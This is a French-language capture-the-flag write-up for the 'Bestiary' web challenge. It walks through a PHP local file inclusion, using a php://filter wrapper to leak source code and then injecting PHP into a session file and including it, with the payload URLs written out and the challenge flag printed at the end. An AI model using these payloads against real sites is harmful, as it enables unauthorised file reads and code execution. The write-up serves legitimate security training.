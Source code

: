 # <center><b>Bestiary</b></center>
</br>
<blockquote>On vous demande simplement de trouver le flag.
</blockquote>
<br>
Donc on arrive sur une page comme celle-ci où l'on nous demande de choisir un monstre 

![](./bestiary.png)

On choisit donc un monstre et on appuit sur "show description" et là on peut rearquer plusieurs choses

![](./bestiary1.png)

D'abord on peut voir que l'url à changée, '?monster' s'est rajouté avec comme paramètre le nom de notre monstre. C'est sûrement là que nous allons avoir une vulnérabilité, sûrement une LFI (Local File Inclusion) ou une RFI (Remote File Inclusion).
<br>
Ensuite nous pouvons également voir que notre PHPSESSID a changé en même temps que le monstre, ça pourrait nous aider plus tard.
<br>

Bref revenons à notre faille, on essaye alors d'inclure index.php en paramètre à '?monster' et on y arrive finalement en utilisant les wrappers :

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=php://filter/convert.base64-encode/resource=index.php

On reçoit alors le code source de index.php en base64, nous avons juste à le decoder, ce qui nous donne :

    <?php
	    session_save_path("./sessions/");
	    session_start();
	    include_once('flag.php');
    ?>
    <html>
    <head>
	    <title>Bestiary</title>
    </head>
    <body style="background-color:#3CB371;">
    <center><h1>Bestiary</h1></center>
    <script>
    function show()
    {
	    var monster = document.getElementById("monster").value;
	    .location.href = "index.php?monster="+monster;
    }
    </script>

    <p>
    <?php
	$monster = NULL;

	if(isset($_SESSION['monster']) && !empty($_SESSION['monster']))
		$monster = $_SESSION['monster'];
	if(isset($_GET['monster']) && !empty($_GET['monster']))
	{
		$monster = $_GET['monster'];
		$_SESSION['monster'] = $monster;
	}

	if($monster !== NULL && strpos($monster, "flag") === False)
		include($monster);
	else
		echo "Select a monster to read his description.";
    ?>
    </p>

    <select id="monster">
	<option value="beholder">Beholder</option>
	<option value="displacer_beast">Displacer Beast</option>
	<option value="mimic">Mimic</option>
	<option value="rust_monster">Rust Monster</option>
	<option value="gelatinous_cube">Gelatinous Cube</option>
	<option value="owlbear">Owlbear</option>
	<option value="lich">Lich</option>
	<option value="the_drow">The Drow</option>
	<option value="mind_flayer">Mind Flayer</option>
	<option value="tarrasque">Tarrasque</option>
    </select> <input type="button" value="show description" onclick="show()">
    <div style="font-size:70%">Source : https://io9.gizmodo.com/the-10-most-memorable-dungeons-dragons-monsters-1326074030</div><br />
    </body>
    </html>


En lisant `session_save_path("./sessions/");` on peut déjà deviner le fichier dans lequel notre session sera stockée :

    http://challenges2.france-cybersecurity-challenge.fr:5004/sessions/sess_inserezvotrephpsessid

![](./bestiary2.png)

On peut alors voir que nous voyons le dernier monstre que nous avons visité. Mais si, vous ne vous rappelez pas ? Le cookie est changé en fonction du dernier monstre que nous avons regardé.<br>
C'est là que se trouve la vulnérabilité, si nous voulions afficher autre chose que le dernier monstre que nous avons regardé, il le serait totalement possible en changeant tout simplement le paramètre de 'monstre' dans l'index.<br>

Mais comment on a le flag ducoup ?<br>
Et bien vu que nous ne pouvons pas inclure le fichier 'flag.php', déjà inclus dans l'index.php, à cause de la fonction `include_once('flag.php');`.
Et bien il faut essayer de l'afficher sans l'inclure, ce que nous pouvons faire aisément avec les instructions `echo file_get_contents()` en php.
Essayons ça : 
<br>
<br>
On met met d'abord notre code en paramètre de 'monster'

    challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=<?php echo file_get_contents('flag.php') ?>

Ensuite il nous suffit d'inclure la path contenant notre session en exploitant la LFI 

    http://challenges2.france-cybersecurity-challenge.fr:5004/index.php?monster=./sessions/sess_votrephpsessid

La page ne nous retourne aucune erreur donc nous avons bien réussi à inclure le fichier, nous affichons le code source, et voilà notre fameux flag !

    monster|s:43:"<?php
	$flag="FCSC{83f5d0d1a3c9c82da282994e348ef49949ea4977c526634960f44b0380785622}";
